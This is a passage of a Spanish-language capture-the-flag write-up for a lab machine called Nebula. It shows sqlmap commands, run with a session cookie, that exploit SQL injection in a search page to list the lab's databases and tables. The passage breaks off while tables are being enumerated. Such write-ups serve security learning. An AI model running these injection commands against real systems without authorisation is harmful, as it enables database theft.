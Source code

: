 ¡Wow! Al parecer funcionan y nos han dejado acceder al panel admin. Veamos a dónde nos lleva el botón **`Search Centrals`**:

![SearchCentrals](/assets/img/imgs/nebula/searchcentrals.png)

Nos lleva a un apartado donde podemos introducir un número y nos devuelve un resultado. Esto me suena un poco, tenemos una tabla y un **`input`**, tratemos de encontrar una inyección **`SQL`** (**`SQLI`**).

# Movimiento Lateral
### Shell
Tratemos de intentar averiguar si existe la vulnerabilidad antes mencionada. Para ello utilizaré **`SQLMap`**, una herramienta que nos permite automatizar el proceso de identificación y explotación de dicha vulnerabilidad:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Nebula]
└─# sqlmap -u "http://192.168.1.104/login/search_central.php?id=1" --cookie="PHPSESSID=01mft9ck71b3g868ki6ahjv0dg" --dbs --batch --random-agent
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:00:07 /2024-02-16/

[...]

[*] information_schema
[*] nebuladb

[...]
```

¡Pues sí, era vulnerable! Tenemos una base de datos llamada **`NebulaDB`**, vamos a ver las tablas que contiene:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Nebula]
└─# sqlmap -u "http://192.168.1.104/login/search_central.php?id=1" --cookie="PHPSESSID=01mft9ck71b3g868ki6ahjv0dg" -D "nebuladb" --tables --batch --random-agent
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

```